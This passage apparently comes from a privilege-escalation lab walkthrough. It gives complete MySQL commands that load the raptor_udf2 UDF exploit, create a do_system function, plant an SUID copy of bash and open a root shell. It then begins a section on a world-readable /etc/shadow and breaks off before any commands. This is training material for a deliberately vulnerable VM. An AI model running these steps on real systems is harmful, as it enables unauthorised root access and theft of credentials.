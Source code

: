 ### Step 3: Create a User Defined Function (UDF)

Execute the following commands within the MySQL shell to create a UDF named `do_system` using the compiled exploit:

```bash
use mysql;
create table foo(line blob);
insert into foo values(load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));
select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
create function do_system returns integer soname 'raptor_udf2.so';
```

### Step 4: Exploit the UDF to Gain Root Privileges

Use the `do_system` function to copy `/bin/bash` to `/tmp/rootbash` and set the SUID permission:

```bash
select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');
```

### Step 5: Gain a Root Shell

Exit the MySQL shell and execute the `/tmp/rootbash` executable with the `-p` option to gain a shell running with root privileges:

```bash
/tmp/rootbash -p
```

### Step 6: Clean Up

Remove the `/tmp/rootbash` executable and exit the root shell before proceeding:

```bash
rm /tmp/rootbash
exit
```

### Q1. Follow the steps above to exploit the MySQL service.

**No answer needed**

## Weak File Permissions - Readable /etc/shadow

### Understanding the /etc/shadow File

The `/etc/shadow` file contains user password hashes and is typically readable only by the root user. However, on this VM, the `/etc/shadow` file is world-readable.

### Step 1: Verify File Permissions

Check the permissions of the `/etc/shadow` file:
